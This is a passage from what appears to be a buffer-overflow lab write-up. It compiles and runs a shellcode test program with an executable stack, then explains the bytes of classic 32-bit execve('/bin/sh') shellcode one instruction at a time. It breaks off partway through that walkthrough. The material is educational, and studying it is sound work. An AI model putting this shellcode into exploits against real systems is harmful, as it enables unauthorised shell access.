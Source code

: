 Again, we compile this code by gcc. Although we run the code on the stack, it's not necessary for us to add `-z execstack` option, maybe in the -m32 option, the execstack is default, but it's more appropriate to include the option to make sure the code could run.

```shell
$ gcc -m32 -z execstack -o call_shellcode call_shellcode.c
$ ./call_shellcode
$ 
```

After we run the code, we get shell again.

Here we take a short time to read the content inside the `code[]`.

At first, let's take a look at the purpose of this code, and the registers we have to focus on.

```c
		execve("/bin/sh", argv, 0);
					|        |    |
				  %ebx      %ecx  %edx
		
		%eax -> store variables
		%al  -> part of %eax, to select the type of system call
		%esp -> the stack pionter
```

The purpose of this code is to call the `execve` system call to start a `/bin/sh` shell.

Then we take a deep look at the code.

```c
  	"\x31\xc0"             /* xorl    %eax,%eax              */
  	"\x50"                 /* pushl   %eax                   */
```

At first, we make the `%eax` register to `zero` by do *xor* option with itself. The reason why we don't use `move zero` is that we can't `strcpy` the string after the value `\0`. Then we push it into the stack.

```c
  	"\x68""//sh"           /* pushl   $0x68732f2f            */
  	"\x68""/bin"           /* pushl   $0x6e69622f            */
```

Next, we push the string value to the stack, notice the line 1, we actually push the string `"//sh"`, this is because we have to align the memory space, and fortunately when run the shell code, `"//sh"` is equal to `"/sh"`.

Another point we should notice is that now the *stack pointer* which stores in the `%esp` register points to the start address of the String `/bin//sh`.

```c
  	"\x89\xe3"             /* movl    %esp,%ebx              */
```

Now, the register store the start address of `"/bin//sh"`, which can not decide in compile time.

```c
	"\x50"                 /* pushl   %eax                   */
 	"\x53"                 /* pushl   %ebx                   */
	"\x89\xe1"             /* movl    %esp,%ecx              */
```
